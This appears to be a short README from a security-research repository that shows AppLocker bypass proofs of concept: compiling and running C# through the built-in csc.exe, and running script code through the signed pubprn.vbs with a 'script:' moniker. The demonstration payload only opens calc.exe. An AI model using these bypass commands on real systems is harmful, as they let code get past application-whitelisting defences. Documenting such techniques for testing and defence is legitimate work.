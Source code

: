 


## 视频(vedio):
http://www.ggsec.cn/secist-Apploacker-bypass.html

https://youtu.be/jDuENcSRN1E





## POC：



## 1.csc.exe
``` tex
c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:Output\secist.exe Output\secist.cs &&  Output\secist.exe
```

### Code-secist.cs

``` 
using System;
namespace HelloWorld
{
    class Program
    {
        static void Main(string[] args)
        {
         System.Diagnostics.Process.Start("calc.exe");  
        }
    }
}
	
```





Links:
http://www.ggsec.cn/NET-CS-calc.html


https://web.archive.org/web/20161008143428/http://subt0x10.blogspot.com/2016/09/application-whitelisting-bypass-csiexe.html


https://github.com/milkdevil/UltimateAppLockerByPassList





## 2.cscript

``` code
cscript C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs localhost "script:"  绝对路径\demon.png
```
